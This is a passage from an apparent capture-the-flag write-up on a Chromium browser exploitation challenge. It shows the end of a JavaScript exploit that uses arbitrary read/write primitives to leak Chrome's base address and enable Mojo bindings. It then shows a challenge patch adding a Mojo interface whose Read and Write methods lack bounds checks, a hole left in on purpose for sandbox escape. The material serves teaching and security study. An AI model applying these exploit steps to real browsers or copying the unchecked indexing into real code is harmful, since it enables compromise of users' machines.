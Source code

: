 ```javascript=
    }
    var leak = BigInt(addrof(window)) + 0x10n + v8_heap - 1n;
    var chrome_base = arbread(leak) - 0xc1ce730n;
    var mojo_enabled = chrome_base + 0xc560f0en;
    localStorage.setItem("chrome_base", chrome_base);
    arbwrite(mojo_enabled, 1n);
    window.location.reload();
}
```

## Sandbox Escaping

For sandbox escaping, the challenge added a vulnerable Mojo interface `CtfInterface` to the Chromium browser. Here we only show the most important part of the challenge patch file:

```diff
+void CtfInterfaceImpl::Create(
+    mojo::PendingReceiver<blink::mojom::CtfInterface> receiver) {
+  auto self = std::make_unique<CtfInterfaceImpl>();
+  mojo::MakeSelfOwnedReceiver(std::move(self), std::move(receiver));
+}
+
+void CtfInterfaceImpl::ResizeVector(uint32_t size,
+                                    ResizeVectorCallback callback) {
+  numbers_.resize(size);
+  std::move(callback).Run();
+}
+
+void CtfInterfaceImpl::Read(uint32_t offset, ReadCallback callback) {
+  std::move(callback).Run(numbers_[offset]);
+}
+
+void CtfInterfaceImpl::Write(double value,
+                             uint32_t offset,
+                             WriteCallback callback) {
+  numbers_[offset] = value;
+  std::move(callback).Run();
+}
+

//.......omitted...........
// The CtfInterfaceImpl class
+class CONTENT_EXPORT CtfInterfaceImpl : public blink::mojom::CtfInterface {
+ public:
+  CtfInterfaceImpl();
+  ~CtfInterfaceImpl() override;
+  static void Create(
+      mojo::PendingReceiver<blink::mojom::CtfInterface> receiver);
+
+  void ResizeVector(uint32_t size, ResizeVectorCallback callback) override;
+  void Write(double value, uint32_t offset, WriteCallback callback) override;
+  void Read(uint32_t offset, ReadCallback callback) override;
+
+ private:
+  std::vector<double> numbers_;
+  DISALLOW_COPY_AND_ASSIGN(CtfInterfaceImpl);
+};

//.......omitted...........

+interface CtfInterface {
+  ResizeVector(uint32 size) => ();
+  Read(uint32 offset) => (double value);
```